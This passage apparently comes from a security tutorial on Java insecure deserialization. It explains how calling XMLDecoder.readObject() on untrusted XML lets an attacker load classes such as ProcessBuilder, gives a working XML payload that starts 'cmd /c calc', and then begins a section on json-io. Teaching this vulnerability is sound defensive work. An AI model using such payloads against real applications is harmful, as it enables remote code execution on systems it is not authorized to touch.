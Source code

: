 ```java
            this.name = name;
        }
        public int getWidth() {
            return width;
        }
        public void setWidth(int width) {
            this.width = width;
        }
        public int getHeight() {
            return height;
        }
        public void setHeight(int height) {
            this.height = height;
        }    
    }
}
```

The application tries to instantiate a Desert object by loading it from an external XML file. Instead of an XML parser, the `readObject()` is called from the `XMLDecoder` class.

As for the previous example, it is possible to force the application into loading arbitrary classes, in the most suitable way to execute arbitrary code. 
In this case, it would be possible to load classes used by JAVA to interact with the OS, such as `java.lang.Runtime` or `java.lang.ProcessBuilder`. By using these classes, the application would kindly start new processes, executing arbitrary code. An example payload is provided below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_241" class="java.beans.XMLDecoder">
 <void class="java.lang.ProcessBuilder">
   <array class="java.lang.String" length="3">
          <void index="0">
              <string>cmd</string>
          </void>
          <void index="1">
              <string>/c</string>
          </void>
          <void index="2">
              <string>calc</string>
          </void>
      </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

**JSON**

Of course, JSON format is not free from this kind of vulnerability. The main problem with JSON, however, is that different libraries exist in JAVA which supports automatic serialization/deserialization, and not all of them are equally subsceptible to this kind of attack. The library chosen as subject of the following example is JsonIO (json-io).
